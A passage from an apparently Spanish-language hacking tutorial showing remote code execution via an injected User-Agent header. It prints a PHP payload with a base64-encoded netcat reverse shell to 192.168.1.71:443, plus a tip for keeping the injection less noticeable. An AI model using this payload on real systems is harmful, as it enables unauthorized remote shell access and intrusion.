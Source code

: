 ![image](/assets/images/Hacking/RCE/connect.png)

Como vemos aquí ya obtuvimos la conexión, pero ahora enviaremos esta cadena por el RCE que obtuvimos por medio del User Agent, en este caso la IP no cambia ya que la conexión sigue siendo en nuestro equipo local:

Nos ponemos en escucha por el puerto 443 nuevamente:

![image](/assets/images/Hacking/RCE/newconnect.png)

Y ahora por medio del RCE que conseguimos vamos a ejecutar esto:

![image](/assets/images/Hacking/RCE/string.png)

`<?php system('echo bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS43MSA0NDMK | base64 -d | bash') ?>`

Vemos que alado del userAgent pusimos el RCE con las instrucciones para desplegar la reverse shell que creamos anteriormente. Esta vez dejamos el UserAgent con su contenido y pusimos nuestra cadena de comandos alado, esto para evitar algun error que podría pasar en algunos casos o para que no sea tan notorio.

En este caso tuvimos que quitar en el echo las dobles comillas que contienen la string del base64, esto para evitar un error de conexión e interpretación de la web al interpretar el código inyectado.

